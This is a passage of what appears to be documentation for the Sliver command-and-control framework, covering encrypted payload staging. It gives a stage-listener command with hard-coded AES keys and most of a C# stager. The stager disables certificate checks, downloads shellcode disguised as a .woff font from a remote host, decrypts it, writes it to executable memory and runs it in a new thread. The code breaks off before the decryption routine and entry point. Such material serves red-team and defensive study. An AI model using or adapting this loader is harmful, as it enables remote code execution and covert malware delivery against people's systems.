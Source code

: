 Sliver supports encryption and compression when serving stages. Compression options are `zlib`, `gzip`, and `deflate` (level 9). Encryption is done via AES-CBC-128, since this encryption is primarily for obfuscation we don't really need a more secure cipher mode.

```
stage-listener --url http://192.168.0.52:80 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

If aes-encrypt-iv is not set it defaults to `0000000000000000`. After the stage generation is completed AES key and iv are displayed. Note that this example does not include compression:

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.24.128:8443/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            List<byte> l = new List<byte> { };

            for (int i = 16; i <= shellcode.Length -1; i++) {
                l.Add(shellcode[i]);
            }

            byte[] actual = l.ToArray();

            byte[] decrypted;

            decrypted = Decrypt(actual, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
            Marshal.Copy(decrypted, 0, addr, decrypted.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }
```